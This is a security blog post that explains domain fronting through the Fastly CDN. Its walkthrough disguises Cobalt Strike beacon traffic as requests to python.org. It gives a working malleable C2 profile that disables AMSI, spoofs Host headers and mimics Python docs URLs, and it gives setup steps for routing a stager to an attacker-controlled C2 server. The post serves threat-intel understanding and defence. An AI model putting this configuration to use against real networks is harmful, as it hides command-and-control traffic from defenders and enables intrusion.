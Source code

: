 ```yaml
---
title: "Threat Spotlight - Domain Fronting"
excerpt: Fast(ly) but deadly.
category: threat-spotlight
tags: [en-us, guide]
header:
  overlay_color: '#000'
  overlay_filter: '0.75'
  overlay_image: 
---
```



Domain fronting is a common technique that is sometimes used by threat actors to disguise their traffic as the real deal. Essentially, what it is is communicate with legitimate-looking domains when reality, the traffic is being pointed to threat actor's C2 stations. A common example would be using legitimate or reputable domains with a custom `Host` header to redirect the traffic to threat actor's stations. There are many examples out there that abuse services like [Cloudflare](https://digi.ninja/blog/cloudflare_example.php), [CloudFront](https://digi.ninja/blog/cloudfront_example.php), and such.

In today's example, we'll be using Fastly as an example. Fastly provides a service that's more or less intended to act as a CDN, where you can create a service and tie it to your backend. As you can imagine, a company as large as Fastly ([that was able to bring half the Internet with it when it went down](https://www.bloomberg.com/news/articles/2021-06-08/explaining-cdns-and-why-big-websites-crash-together-quicktake)), there are probably more than thousands of people using their services - and indeed there are.

You can do a quick search using services like RiskIQ to look through all of the subdomains associated with `*.fastly.net`. While [it appears we're not the first to discover this](https://fortynorthsecurity.com/blog/fastly-and-fronting/), there aren't a whole lot of other resources out there talking about abusing Fastly as a service.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-14_20-34-02.png" %}

And Python Software Foundation just so happens to use it too!

{% picture figure "/assets/images/posts/domain-fronting/2021-11-14_20-40-10.png" %}

What actually happens is when you contact `python.org`, it actually gets interpreted as `python.org.prod.global.fastly.net` internally based on the `Host` header. This was actually brought to our attention a while back when my colleagues discovered there were CobaltStrike beacons in the wild that appear to connect to Python-related domains at execution, and upon further investigation, we realized they were abusing the nature of Fastly services to disguise their traffic. So I decided to do a little experiment this weekend to see if I can recreate that myself.

To get started, I created a new service on Fastly called `dl-python.org`, a service name (and in turn, a domain name) that appears to be similar enough to the real deal, but doesn't actually exist (and it doesn't need to be!).

<figure>
  {% picture nomarkdown "/assets/images/posts/domain-fronting/2021-11-13_19-29-20.png" %}
  {% picture nomarkdown "/assets/images/posts/domain-fronting/2021-11-14_20-47-44.png" %}
  <figcaption>
    Create a new service that appears to be genuine enough to the target domain name. In this case, <code>dl-python.org</code>.
    Note that while <code>dl-python.org</code> appears to be actually owned by someone else, I don't actually have access to it, nor will it actually make contact with the domain (we'll get to that part later). You can name it whatever you want.
  </figcaption>
</figure>

Next, in the Host settings section, enter your actual C2's domain name, something you have actual control over. In this case, `my-c2domain.com`. I have the port set to `55137`, but it should be 443 ideally for HTTPS beacons. My 80/443 port was occupied by something else when I was experimenting with it.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-29-57.png" %}

Next, we're going to craft a new CobaltStrike Stager. Create a new Listener on your team server with the vulnerable domain name as the C2, and enter your service name in the `Host` field. To make the traffic look a little bit more genuine, you can also craft your own malleable C2 profile that has contents of Python docs inside.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-28-47.png" %}

```text
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0";

# set host_stage "false";
post-ex {
	# control the temporary process we spawn to
	set spawnto_x86 "%ProgramFiles(x86)%\\Everything\\Everything.exe";
	set spawnto_x64 "%ProgramFiles%\\Mozilla Firefox\\firefox.exe";

	# change the permissions and content of our post-ex DLLs
	set obfuscate "true";

	# pass key function pointers from Beacon to its child jobs
	set smartinject "true";

	# disable AMSI in powerpick, execute-assembly, and psinject
	set amsi_disable "true";
}

http-config {
	set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
	set trust_x_forwarded_for "false";
	header "Server" "nginx";
	header "Keep-Alive" "timeout=5, max=100";
	header "Connection" "Keep-Alive";
}

http-get {
    set uri "/3/library/stdtypes.html";
    client {
        header "Accept" "*/*";
        header "Host" "dl-python.org";
        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            # the content was so long for my IDE that it actually hung when trying to parse it
            # so I'm gonna leave this section to you
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}

http-post {
    set uri "/3/library/struct.html";
    client {
        header "Accept" "*/*";
        header "Host" "cobaltstrike.stillu.cc";
        id {
            mask;
            base64url;
            parameter "x-timer";
        }
        output {
            mask;
            base64url;
            parameter "etag";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}
```

And that's it! Let's try to run the stager on our victim machine.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-31-10.png" %}

As you can see, it worked! It looks like it's contacting `docs.python.org` (and it is), yet the server returned beacon information for the stager. Just not in plaintext because I had the `mask` option enabled, otherwise the content should look almost like standard HTML content with random bits of information thrown in there because of the malleable C2 config above - and this is with unencrypted traffic.

This trick is perfect for threat actors that want to evade IT admins' attention as
- it appears to contact a real domain with benign URL (`http://docs.python.org/3/library/stdtypes.html`)
- it can be made to communicate in HTTPS, so the `Host` header wouldn't even show up
- if the IT admin does manage to figure out it goes to `dl-python.org.prod.global.fastly.net`, it doesn't reveal the actual C2 address still, as the resolved IP would just be Fastly's own CDN IP.

This entire thing was really fun to recreate and helped me understand CobaltStrike a little bit more from attacker's perspective, as I've always tackled CobaltStrike payloads from a Blue Team's perspective as a threat intel researcher. If you are in the same position as me, I also encourage you to give CobaltStrike a try and try to attack your own machines to see what tricks you can pull off (if your organization has access to such tool).
